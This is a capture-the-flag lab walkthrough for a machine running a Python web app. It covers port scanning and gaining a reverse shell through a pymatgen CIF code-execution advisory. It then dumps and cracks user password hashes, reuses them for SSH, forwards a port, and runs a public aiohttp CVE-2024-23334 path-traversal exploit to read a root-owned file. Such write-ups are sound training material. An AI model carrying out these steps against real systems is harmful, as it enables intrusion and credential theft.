

Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```

once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```

Now, the scan shows that the machine is hosting a web server with Python, we can take a look at the website to investigate more using burpsuite as a proxy to intercept all the traffic.
Register an account and login to it. 
### User Flag
There's an Arbitrary code execution vulnerability in the dashboard, allowing us to upload a maliciously crafted cfi file that we can use to upload and execute a reverse shell
https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
Just upload it and view it to execute the reverse shell

Once obtained the shell, let's enumerate the contents in the directory


There's a users table where they store the credentials
```sh
sqlite3 database.db 'select * from user;'
```


You can crack it with hashcat
```sh
hashcat -m 0 creds.txt rockyou.txt --user
```
You can try the credentials you obtained to login to the dashboard, maybe they used the same credentials to login to ssh


rosa... why?
anyways, here's your user flag
```sh
cat user.txt
```

### Root Flag
Find other ports that the host is using but aren't public 
```bash
netstat -tuln
```


Using port forward, we can see the contents of that page
```sh
ssh -L 5555:localhost:8080 rosa@10.10.11.38
```


we can also use whatweb to see the technologies that the page uses
```sh
whatweb http://localhost:5555
```


look for directories with gobuster


looking for vulnerabilities of the website technologies you can find the CVE-2024-23334
for the **Aiohttp** version that the website is using, here's a python script that exploits it:
https://github.com/wizarddos/CVE-2024-23334
```sh
python exploit.py -u "http://localhost:5555" -f "/root/root.txt" -d "/assets"
```


and you got the root flag!!

### Conclusion
This machine covers topics like LFI, port forwarding, looking for CVEs and password cracking.



<mark>Hope you enjoy it and Happy Hacking!</mark>
